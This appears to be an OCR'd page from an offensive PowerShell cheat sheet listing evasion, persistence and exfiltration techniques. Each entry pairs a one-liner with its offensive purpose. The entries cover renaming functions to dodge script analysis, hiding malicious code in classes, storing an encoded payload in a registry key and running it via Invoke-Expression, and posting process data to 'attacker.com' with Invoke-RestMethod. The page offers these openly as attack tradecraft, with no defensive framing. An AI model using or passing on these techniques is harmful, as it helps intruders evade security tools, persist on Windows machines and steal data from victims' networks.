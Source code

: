 ## **Function Renaming for Evasion**



`Function MyGetProc { Get-Process }; MyGetProc`

Renames a PowerShell function to something less conspicuous, which can help in evading script analysis and monitoring tools.

---

## **Using PowerShell Classes for Code Hiding**



`class HiddenCode { [string] Run() { return 'Hidden command executed' } }; $instance = [HiddenCode]::new(); $instance.Run()`

Defines a custom PowerShell class to encapsulate and hide malicious code, making it harder for security tools to detect.

---

## **Registry Key Usage for Persistence**



`$path = 'HKCU:\Software\MyApp'; New-Item -Path $path -Force; New-ItemProperty -Path $path -Name 'Config' -Value 'EncodedPayload' -PropertyType String -Force; $regValue = Get-ItemProperty -Path $path -Name 'Config'; Invoke-Expression $regValue.Config`

Uses the Windows Registry to store and later execute encoded payloads, aiding in persistence and evasion.

---

## **Out-Of-Band Data Exfiltration**



`$data = Get-Process | ConvertTo-Json; Invoke-RestMethod -Uri 'http://attacker.com/data' -Method Post -Body $data`

Exfiltrates data out of the target network using web requests, which can bypass traditional data loss prevention mechanisms.

---

## **Using PowerShell to Access WMI for Stealth**



`$query = 'SELECT * FROM Win32_Process'; Get-WmiObject -Query $query`

Leverages WMI (Windows Management Instrumentation) to execute system queries, which can be less conspicuous than direct PowerShell commands.

---
